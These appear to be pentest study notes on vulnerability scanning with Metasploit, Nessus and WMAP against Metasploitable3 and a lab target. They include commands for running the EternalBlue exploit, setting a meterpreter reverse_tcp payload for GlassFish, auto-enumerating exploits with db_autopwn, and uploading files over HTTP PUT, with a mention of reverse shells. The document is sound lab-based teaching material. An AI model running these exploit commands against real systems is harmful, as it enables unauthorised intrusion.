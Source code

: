 # Vulnerability Scanning

## Vulnerability Scanning With MSF <a href="#vulnerability-scanning-with-msf" id="vulnerability-scanning-with-msf"></a>

MSF **Auxiliary** and **exploit** modules can be utilized to identify inherent vulnerabilities in services, O.S. and web apps.

* Useful in the **Exploitation** phase of the pentest

🔬 [Metasploitable3](https://github.com/rapid7/metasploitable3) lab environment will be used for the vulnerability scanning demonstration.

* **Metasploitable3** is a vulnerable virtual machine developed by Rapid7, intended to be used as a vulnerable target for testing exploits with Metasploit.

> 🔬 You can find my lab installation & configuration with Vagrant at [this page](https://blog.syselement.com/home/home-lab/redteam/metasploitable3), _set up for educational purposes_.

* Kali Linux attacker machine must be configured with **the same local network** of the Metasploitable3 VMs.

Detect active hosts on the local network, from the Kali VM:sudo nmap -sn 192.168.31.0/24Nmap scan report for 192.168.31.139 # Linux targetNmap scan report for 192.168.31.140 # Windows2008 target

* Run Metasploit:

service postgresql start && msfconsole -qdb\_statussetg RHOSTS 192.168.31.140setg RHOST 192.168.31.140workspace -a VULN\_SCAN\_MS3

* **Service version** is a key piece of information for the vulnerabilities scanning. Use the **`db_nmap`** command inside the MSF

db\_nmap -sS -sV -O 192.168.31.140\[\*] Nmap: 21/tcp open ftp Microsoft ftpd\[\*] Nmap: 22/tcp open ssh OpenSSH 7.1 (protocol 2.0)\[\*] Nmap: 80/tcp open http Microsoft IIS httpd 7.5\[\*] Nmap: 135/tcp open msrpc Microsoft Windows RPC\[\*] Nmap: 139/tcp open netbios-ssn Microsoft Windows netbios-ssn\[\*] Nmap: 445/tcp open microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds\[\*] Nmap: 3306/tcp open mysql MySQL 5.5.20-log\[\*] Nmap: 3389/tcp open tcpwrapped\[\*] Nmap: 4848/tcp open ssl/http Oracle GlassFish 4.0 (Servlet 3.1; JSP 2.3; Java 1.8)\[\*] Nmap: 7676/tcp open java-message-service Java Message Service 301\[\*] Nmap: 8009/tcp open ajp13 Apache Jserv (Protocol v1.3)\[\*] Nmap: 8080/tcp open http Oracle GlassFish 4.0 (Servlet 3.1; JSP 2.3; Java 1.8)\[\*] Nmap: 8181/tcp open ssl/http Oracle GlassFish 4.0 (Servlet 3.1; JSP 2.3; Java 1.8)\[\*] Nmap: 8383/tcp open http Apache httpd\[\*] Nmap: 9200/tcp open wap-wsp?\[\*] Nmap: 49152/tcp open msrpc Microsoft Windows RPC\[\*] Nmap: 49153/tcp open msrpc Microsoft Windows RPC\[\*] Nmap: 49154/tcp open msrpc Microsoft Windows RPC\[\*] Nmap: 49155/tcp open msrpc Microsoft Windows RPC\[...]db\_nmaphostsservices

<figure><img src="https://2946054920-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FlhjuckuLbvBn36EoFL7P%2Fuploads%2Fgit-blob-da30e0d4036528a13a9f80ff9d8b01fdd950c4eb%2Fimage-20230413200524969.png?alt=media" alt=""><figcaption></figcaption></figure>

* Manually search for a specific exploit
  * Check if there are any exploits for a particular **version** of a service

search type:exploit name:iissearch type:exploit name:iissearch Sun GlassFish

<figure><img src="https://2946054920-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FlhjuckuLbvBn36EoFL7P%2Fuploads%2Fgit-blob-375c51ac9321889fd7f66157154bed2363465c80%2Fimage-20230413192845621.png?alt=media" alt=""><figcaption></figcaption></figure>

* Check if a module will work on the specific version of the service

use exploit/multi/http/glassfish\_deployerinfo​# Description:# This module logs in to a GlassFish Server (Open Source or# Commercial) using various methods (such as authentication bypass,# default credentials, or user-supplied login), and deploys a# malicious war file in order to get remote code execution. It has# been tested on Glassfish 2.x, 3.0, 4.0 and Sun Java System# Application Server 9.x. Newer GlassFish versions do not allow remote# access (Secure Admin) by default, but is required for exploitation.set payload windows/meterpreter/reverse\_tcpoptions# check the LHOST, LPORT, APP\_RPORT, RPORT, PAYLOAD options

* Use [searchsploit](https://www.exploit-db.com/searchsploit) tool from the Kali terminal, instead of `search MSF command`, by displaying only the Metasploit exploit modules

searchsploit "Microsoft Windows SMB" | grep -e "Metasploit"

<figure><img src="https://2946054920-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FlhjuckuLbvBn36EoFL7P%2Fuploads%2Fgit-blob-ccd61dd756b19c9fe6732fd4bc6df233f08f8c9a%2Fimage-20230413194606641.png?alt=media" alt=""><figcaption></figcaption></figure>

* Back in `msfconsole`, check if the server is vulnerable to MS17-010

search eternalblueuse auxiliary/scanner/smb/smb\_ms17\_010runuse exploit/windows/smb/ms17\_010\_eternalblueoptions# always check Payload optionsrun

<figure><img src="https://2946054920-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FlhjuckuLbvBn36EoFL7P%2Fuploads%2Fgit-blob-e9399a0e6c8efc589338f07390d7ad79f5433cf8%2Fimage-20230413200558380.png?alt=media" alt=""><figcaption></figcaption></figure>

> ​[**metasploit-autopwn**](https://github.com/hahwul/metasploit-autopwn) - a Metasploit plugin for easy exploit & vulnerability attack.
>
> * _takes a look at the Metasploit database and provides a list of exploit modules to use for the already enumerated services_

* On a Kali terminal

wget https://raw.githubusercontent.com/hahwul/metasploit-autopwn/master/db\_autopwn.rbsudo mv db\_autopwn.rb /usr/share/metasploit-framework/plugins/

* On `msfconsole`

load db\_autopwndb\_autopwn -p -t# Enumerates exploits for each of the open portsdb\_autopwn -p -t -PI 445# Limit to only the 445 portdb\_autopwn -p -t -PI 445

<figure><img src="https://2946054920-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FlhjuckuLbvBn36EoFL7P%2Fuploads%2Fgit-blob-aebfca43b742e41d758e63a2e3e6b0cdbc355643%2Fimage-20230413202435550.png?alt=media" alt=""><figcaption></figcaption></figure>

* On `msfconsole` use the **`analyze`** command to auto analyze the contents of the MSFdb (hosts & services)

analyzeanalyzevulnsvulns

<figure><img src="https://2946054920-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FlhjuckuLbvBn36EoFL7P%2Fuploads%2Fgit-blob-ceda763cca80af814cb9304c543bd68cb4bb61f3%2Fimage-20230413202802181.png?alt=media" alt=""><figcaption></figcaption></figure>

<figure><img src="https://2946054920-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FlhjuckuLbvBn36EoFL7P%2Fuploads%2Fgit-blob-f2413c550b79a3a1148a63bdb63d63dc5778b675%2Fimage-20230413202708057.png?alt=media" alt=""><figcaption></figcaption></figure>

## VA with [Nessus](https://www.offsec.com/metasploit-unleashed/working-with-nessus/)​ <a href="#va-with-nessus" id="va-with-nessus"></a>

> 🔬 You can find my [**Nessus Essentials** install tutorial here](https://blog.syselement.com/home/operating-systems/linux/tools/nessus).

* A vulnerability scan with Nessus result can be imported into the MSF for analysis and exploitation.
* Nessus Essentials free version allows to scan up to 16 IPs.

Start Nessus Essentials on the Kali VM, login and create a New **Basic Network Scan** and run it.Wait for the scan conclusion and export the results with the **Export/Nessus** button.![](https://2946054920-files.gitbook.io/\~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FlhjuckuLbvBn36EoFL7P%2Fuploads%2Fgit-blob-986ff2afeccc2978f8dfefa575f9bdf4d236d58d%2Fimage-20230413222104319.png?alt=media)Nessus Essentials - Metasploitable3

* Open the `msfconsole` terminal and import the Nessus results
  * Check the information from the scan results with the `hosts`, `services`, `vulns` commands

workspace -a MS3\_NESSUSdb\_import /home/kali/Downloads/MS3\_zph3t5.nessushostsservicesvulns![](https://2946054920-files.gitbook.io/\~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FlhjuckuLbvBn36EoFL7P%2Fuploads%2Fgit-blob-1562ae2abdb68d12d5245bf395d9dd026ad7295c%2Fimage-20230413222333897.png?alt=media)vulns -p 445![](https://2946054920-files.gitbook.io/\~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FlhjuckuLbvBn36EoFL7P%2Fuploads%2Fgit-blob-22fa84721de13f146690e31e9bde9df8926340e6%2Fimage-20230413222411974.png?alt=media)search cve:2017 name:smbsearch MS12-020search cve:2019 name:rdpsearch cve:2015 name:ManageEnginesearch PHP CGI Argument Injection

#### VA with [WMAP](https://www.offsec.com/metasploit-unleashed/wmap-web-scanner/)​ <a href="#va-with-wmap" id="va-with-wmap"></a>

🗒️ **WMAP** is a web application vulnerability scanner that allows to conduct and automate web server enumeration and scanning from within the Metasploit Framework.

* Available as a fully integrated MSF plugin
* Utilizes the in-built MSF auxiliary modules

> 🔬 The lab is the same one from the HTTP Metasploit Enumeration section above - [Metasploit - Apache Enumeration Lab](https://www.attackdefense.com/challengedetails?cid=118)​

ip -br -c a192.28.60.3# Target IP​service postgresql start && msfconsole -qdb\_statussetg RHOSTS 192.28.60.3setg RHOST 192.28.60.3workspace -a WMAP\_SCAN

* Load WMAP extension within `msfconsole`

load wmap![](https://2946054920-files.gitbook.io/\~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FlhjuckuLbvBn36EoFL7P%2Fuploads%2Fgit-blob-c0b6ef2389f185e284ff6f7adfeafebf8c20102a%2Fimage-20230415164951596.png?alt=media)load wmap

* Add WMAP site

wmap\_sites -a 192.28.60.3

* Specify the target URL

wmap\_targets -t http://192.28.60.3wmap\_sites -lwmap\_targets -l

* Show only the MSF modules that will be able to be run against target

wmap\_run -t

* Run the **web app vulnerability scan**
  * this will run all enabled modules against the target web server

wmap\_run -e

* _Analyze the results produced by WMAP._

wmap\_run -twmap\_run -e

<figure><img src="https://2946054920-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FlhjuckuLbvBn36EoFL7P%2Fuploads%2Fgit-blob-e1c6ae0eaf0eeb364e08f62acd3996d79d8076dd%2Fimage-20230415170207090.png?alt=media" alt=""><figcaption></figcaption></figure>

<figure><img src="https://2946054920-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FlhjuckuLbvBn36EoFL7P%2Fuploads%2Fgit-blob-95e786ae8af9e36702f2dca72d5c949173c12d85%2Fimage-20230415165930386.png?alt=media" alt=""><figcaption></figcaption></figure>

* List WMAP found vulnerabilities

wmap\_vulns -l

* Since the allowed methods are `POST`, `OPTIONS`, `GET`, `HEAD`, exploit the vulnerability with the use of `auxiliary/scanner/http/http_put` module to upload a file into the `/data` directory
  * 📌 A reverse shell payload can be uploaded and run on the target.

use auxiliary/scanner/http/http\_putoptionsset PATH /data/set FILEDATA "File uploaded"set FILENAME file.txtrunMetasploit - auxiliary/scanner/http/http\_put

<figure><img src="https://2946054920-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FlhjuckuLbvBn36EoFL7P%2Fuploads%2Fgit-blob-23e3f18254581336f1ee00860ef87f174f176772%2Fimage-20230415171358249.png?alt=media" alt=""><figcaption></figcaption></figure>

* Test if the file has been uploaded correctly

curl http://192.28.60.3:80/data/file.txt
